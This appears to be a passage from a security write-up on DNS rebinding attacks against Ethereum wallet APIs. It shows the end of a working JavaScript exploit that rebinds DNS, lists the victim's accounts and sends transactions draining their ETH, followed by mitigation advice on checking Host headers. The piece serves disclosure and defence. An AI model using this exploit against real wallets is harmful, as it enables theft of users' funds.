 ```javascript
  };

  log("sending transaction -> " + JSON.stringify(txn, null, 2));
  web3.eth.sendTransaction(txn, function(err, result) {
    if (!err) {
      log("transaction succeeded with result -> " + result);
    } else {
      log("transaction failed with error -> " + err);
    }
  });
}

function takeEth() {
  log("getting account list...");
  var accounts = web3.eth.accounts;
  for (var i = 0; i < accounts.length; i++) {
    takeEthFrom(accounts[i]);
  }
}

function sayGoodbye() {
  log("rebinding dns...");
  $.ajax({
    type: 'GET',
    url: '/goodbye',
    success: function(data, status, xhr) {
      initW3();
      takeEth();
    },
    error: function (data, status, error) {
      log("xhr /goodbye failed, status -> " + status + " error -> " + error);
    }
  });
}

sayGoodbye();
```

## What Just Happened?
We gained control of a victim's Ethereum wallet simply by getting them to visit `http://rhodey.org`, bypassing any NAT or firewall they had in place.

## Mitigation
Mitigating DNS Rebinding vulnerabilities is very simple: **always check HTTP Host headers**. The HTTP requests that hit the victim wallet API have the host header set to `eth.rhodey.org` signaling that something is very obviously not right.

Ethereum has already done a bit to lock down the most powerful API capabilities, namely anything to do with constructing or sending a transaction. Now to send a transaction one must *"unlock"* the wallet with their password and specify the duration of time they wish the wallet to remain unlocked. Sneaking an API call in while the wallet is unlocked is difficult but definitely not impossible, especially if you hide this attack in an advertisement or browser extension. Note that wallet locking protection does nothing to prevent de-anonymizing or spying on account balances.
